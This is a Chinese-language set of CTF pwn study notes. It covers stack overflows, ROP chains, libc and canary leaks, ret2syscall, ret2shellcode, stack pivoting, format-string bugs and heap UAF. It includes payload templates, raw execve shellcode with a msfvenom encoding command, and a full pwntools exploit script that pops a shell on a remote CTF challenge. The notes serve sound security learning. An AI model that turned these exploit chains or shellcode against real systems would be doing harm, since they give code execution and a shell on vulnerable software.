

# PWN

+ 技巧总结 https://www.cnblogs.com/xshhc/p/16939678.htmlz
+ 二进制资料 https://abcdxyzk.github.io/blog/cats/assembly/
+ 参考 https://www.yuque.com/hxfqg9/bin
+ 

## 做题笔记-stack

### ROP

> https://blog.csdn.net/weixin_42397925/article/details/116682773
>
> https://blog.csdn.net/weixin_46132162/article/details/128852442#t10

+ padding+rdi_ret+sh_str+ret+sys

### LeakLibc

+ padding+(canary+bit[if exist])+rdi_ret+puts_got+puts_plt+leak_print_addr
+ padding+p32(elf.plt['write'])+p32(elf.sym['vulnerable_function'])+p32(0x1)+p32(elf.got['write'])+p32(0x4)

### Canary leak

Canary存在ebp之前 其大小取决于程序的bit 0x04 0x08

https://cloud.tencent.com/developer/article/1740319

1. Payload_Leak = Padding + p64(Canary) + Padding_Ret + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
2. Payload_Shell = Padding + p64(Canary) + Padding_Ret + p64(ret) + p64(rdi) + p64(binsh) + p64(system)

### glibc 2.27

+ 得知glibc2.27以后引入xmm寄存器, 记录程序状态, 会执行movaps指令, 要求rsp是按16字节对齐的, 所以如果payload这样写
  `payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr)`
  弹出的数据是奇数个, 本地就会报错
  但是改成偶数个pop
  `payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(ret_addr) + p64(system_addr)`
  就能打通本地了

### ret2syscall

+ 参考 https://www.cnblogs.com/fuxuqiannian/p/16913836.html
+ 没有sys且开启了NX
+ 32：pop,a,b,c,d,ret execve调用号 0xb写在pop,a后 其余两个寄存器覆盖0 p32(0) 最后执行int80 addr
+ 64：传参的寄存器是rdi->rsi->rdx->rcx->r8->r9 execve调用号 0x3b 最后执行syscall addr
+ 

### ret2csu

+ https://ctf-wiki.org/en/pwn/linux/user-mode/stackoverflow/x86/medium-rop/
+ 1.查找利用gadgets
  + 
+ 2.给寄存器赋值 按照64的参数顺序
+ 3.泄露write地址 使得程序重新运行main函数，根据libc基地址计算system函数和binsh字符串的真实地址，构造ROP链

### ret2shellcode

+ http://shell-storm.org/shellcode/files/shellcode-819.html
+ b64shellcode编码的buf执行
  + `python -c ``'import sys; sys.stdout.write("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'` `| msfvenom -p - -e x86``/alpha_mixed` `-a linux -f raw -a x86 --platform linux BufferRegister=EAX -o payload`
  + BSides San Francisco CTF 2017-b_64_b_tuff

### fmt

+ 查找溢出位置相对于flag变量的位置 计算出偏移
+ %偏移%s 泄露偏移地址上的值作为string类型输出
+ 小大端序问题
+ ```python
  nums=["657b46544353534e","2d34653333386238","3165342d65313936","622d383534382d30",
  "6565306232346663","7d363731"]
  for strs in nums:
      i = len(strs)-2
      while i >= 0:
          num = strs[i:i+2]
          print(chr(int(num,16)),end="")
          i = i-2
  ```

### StackSmash

+ https://blog.csdn.net/m0_74020775/article/details/129858952
+ canary检查到不同时，报StackSmash错，输出$__libc_argv[0] 第一个环境变量 也就是程序本身目录，构造ROP链达到输出想要的内容

### 栈迁移

+ https://xz.aliyun.com/t/12738
+ 对于只能溢出覆盖掉一个地址大小的栈。开启NX，no-pie，栈迁移到bss段
+ 计算出当前溢出后得到的ebp与pre main ebp计算，得到偏移，到达迁移后的栈。给足所需字符串字节大小。'/bin/sh\x00'=16bytes。call sys,ret
+ 栈迁移是一种技术，用于在利用漏洞时控制程序的执行流。它通常用于绕过保护机制，如栈溢出。
  栈迁移的核心在于使用两次 leave; ret 指令：
  第一次 leave 指令将 ESP 设置为 EBP 的值，即栈顶和栈底指向同一位置。
  然后执行 pop ebp，将栈顶的内容弹入 EBP，此时栈顶的内容也就是 EBP 的内容。
  第二次 leave 指令执行后，ESP 移动到了 EBP 的位置，再次执行 pop ebp，将栈顶的内容弹给 EBP。
  此时控制流跳转到返回地址，实现了栈迁移。

### off_by_null

+ 只溢出一个字节 通常是\x0 null byte

### nop_sled

+ 插入大量NOP指令，增加访问到自己的shellcode的领空概率

### strlen

+ 若程序read(buf,0x100) 但buf只有0x50大小，紧接着程序判断
+ ```c
  int len=strlen(buf);
  if (len>0x50)
  	return(0);
  ```
+ 我们可以使用payload=b'\x00'+padding-1来绕过这个判断

### 数组越界写

+ // 数组越界写
  puts("Here is the seat from 0 to 9, please choose one.");
  __isoc99_scanf("%d", &v0);
  read(0, &seats[16 * v0], 0x10uLL);
+ //.bss:00000000004040A0                               public seats
+ 
+ 0x404040达到got.plt的exit函数 可构造返回函数ROP
+ 通过返回到main二次构造ROP 泄露libc_base后加上one_gadget构造exp

## 做题笔记-heap

> https://bbs.kanxue.com/thread-246786.htm
>
> https://www.cnblogs.com/luoleqi/p/12840154.html

### heap

+ https://www.freebuf.com/articles/endpoint/371095.html
+ malooc，free

### UAF

+ use after free
+ 内存空间未被设置NULL的使用

### patchelf

+ ```
  patchelf --set-interpreter 你的文件目录/ld-linux-x86-64.so.2 ./pwn

  patchelf --add-needed 你的文件目录/libc.so.6 ./pwn

  patchelf --add-needed 你的目录/libpthread.so.0 ./pwn （如果提示没有libpthread.so.0的话）
  ```
+ 

## 技巧笔记

### DynELF

+ 模板

  ```python
  p = remote(ip, port)

  def leak(addr):
         payload2leak_addr = “****” + pack(addr) + “****”
         p.send(payload2leak_addr)
         data = p.recv()
         return data

  d = DynELF(leak, pointer = pointer_into_ELF_file, elf = ELFObject)
  system_addr = d.lookup('system', 'libc')
  read_add = d.lookup('read','libc')
  ```
+ 使用说明

  * 使用DynELF时，我们需要使用一个leak函数作为必选参数，指向ELF文件的指针或者使用ELF类加载的目标文件至少提供一个作为可选参数，以初始化一个DynELF类的实例d。然后就可以通过这个实例d的方法lookup来搜寻libc库函数了。
  * leak函数需要使用目标程序本身的漏洞泄露出由DynELF类传入的int型参数addr对应的内存地址中的数据。
  * 由于DynELF会多次调用leak函数，这个 **函数必须能任意次使用** ，即不能泄露几个地址之后就导致程序崩溃。由于需要泄露数据，payload中必然包含着打印函数，如write, puts, printf等。
  * write函数是最理想的，因为write函数的特点在于其输出完全由其参数size决定，只要目标地址可读，size填多少就输出多少，不会受到诸如‘\0’, ‘\n’之类的字符影响；而puts, printf函数会受到诸如‘\0’, ‘\n’之类的字符影响，在对数据的读取和处理有一定的难度。
  * 在信息泄露过程中，由于循环制造溢出，故可能会导致栈结构发生不可预料的变化，可以尝试调用目标二进制程序的_start函数来重新开始程序以恢复栈。
+ 例子

  + ```python
    from pwn import *
    #context(os='linux', arch='i386', log_level='debug')
    #io=process('./level4')
    io=remote('node5.buuoj.cn',28132)
    elf=ELF('./level4')

    def leak(addr):
    	payload=flat((cyclic(0x88+4)),elf.plt['write'],elf.sym['main'],1,addr,4)
    	io.send(payload)
    	sleep(0.01)
    	leaked=io.recv(4)
    	info('leaked->'+str(leaked))
    	return leaked

    d=DynELF(leak,elf=elf)
    system_addr=d.lookup('system','libc')
    info('system_addr->'+str(system_addr))
    #on bss section get user input binsh str,remember to extend bss,and get 8 bytes
    payload=flat(cyclic(0x88+4),elf.sym['read'],elf.sym['main'],0,elf.bss()+0x500,8)
    io.send(payload)
    io.send(b'/bin/sh\0')
    #time to get the shell,remember again,binsh str in bss + 0x500 area
    payload=flat(cyclic(0x88+4),system_addr,b'aaaa',elf.bss()+0x500)
    io.send(payload)
    io.interactive()

    ```
  + 需要注意的是：泄露的返回地址填main或者_start的地址，对于发出的binsh字符串要符合8大小

### rop 注意事项

+ 32位的rop
  + 构造时是p32(backdoor) + p32(0) + p32(binsh)
  + 每个函数的开始之前都会执行eip然后压ebp，其中的0作为ret使用
  + 或者使用p32(call_system)+p32(binsh) 就不用0
+ 64位的rop
  + 构造时是p64(pop_rdi_ret) + p64(binsh) + p64(system)
  + 为什么会用到pop_rdi_ret?(通常存在csu的最后r15后一个字节)
  + pop rdi 目的是为了让binsh作为我们system的参数，而ret是作为执行eip到我们的system函数
+ 栈对齐
  + 目的：ubuntu18(glibc2.27)及以上在调用system函数的时候会先进行一个检测，如果此时的栈没有16字节对齐的话，就会强行把程序crash掉，所以需要栈对齐。
  + 64下：b'a'*offset + p64(ret) + p64(pop_rdi_ret) + p64(binsh) + p64(system)
  + ret：rsp执行的8字节送入rip，然后**rsp+8**
  + 而这里的ret只用于栈对齐共两个ret 栈与16字节对齐既0x10
+ 栈迁移
  + 栈迁移为什么用到leave，ret指令
  + 32下：leave=mov esp,ebp;pop ebp;
    ret=pop eip
  + 我们栈溢出控制了ebp间接的控制了esp的值，再通过eip控制执行
  + 流程：leave：ebp被复制到esp上，且有4个字节数据，若这时我们输入的是8个'a'则会在esp看到4个'a'数据（数据开头）然后弹出ebp将数据开头前4个字节作为ebp的值
    ret：将eip修改为padding后的地址数据 通常为我们system函数的地址
  + 

### fmt相关

+ fmt
  + 格式化字符串中 addr%n\$n 和 addr%n\$s 为什么可以实现任意地址写和任意地址读。
  + printf 函数执行的时候调用的参数实际上是存在着该参数数据的地址，而存在着该参数数据的地址也在栈上，并且是与 printf 的参数有一定偏移，因此我们就可以确定该参数数据的地址是 pintf 函数的第几个参数，这也是我们要调试出偏移的目的。并且因为参数数据是可控的，我们可以写入参数数据为某一内存地址，利用 %n\$n/s 来将参数数据作为地址调用，那么就可以实现任意地址写和任意地址读。
+
